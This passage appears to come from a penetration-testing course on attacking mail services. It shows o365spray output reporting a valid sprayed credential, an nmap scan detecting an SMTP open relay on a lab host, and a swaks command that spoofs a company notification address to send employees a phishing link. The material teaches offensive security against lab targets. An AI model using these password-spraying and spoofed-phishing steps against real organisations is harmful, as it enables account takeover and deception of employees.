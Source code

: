 ```shell-session
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

## Protocol Specifics Attacks

An open relay is a Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

### **Open Relay**

From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.

```shell-session
al1abb@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Next, we can use any mail client to connect to the mail server and send our email.

```shell-session
al1abb@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213

=== Trying 10.10.11.213:25...
=== Connected to 10.10.11.213.
<-  220 mail.localdomain SMTP Mailer ready
 -> EHLO parrot
<-  250-mail.localdomain
<-  250-SIZE 33554432
<-  250-8BITMIME
<-  250-STARTTLS
<-  250-AUTH LOGIN PLAIN CRAM-MD5 CRAM-SHA1
<-  250 HELP
 -> MAIL FROM:<notifications@inlanefreight.com>
<-  250 OK
 -> RCPT TO:<employees@inlanefreight.com>
<-  250 OK
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 29 Oct 2020 01:36:06 -0400
 -> To: employees@inlanefreight.com
 -> From: notifications@inlanefreight.com
```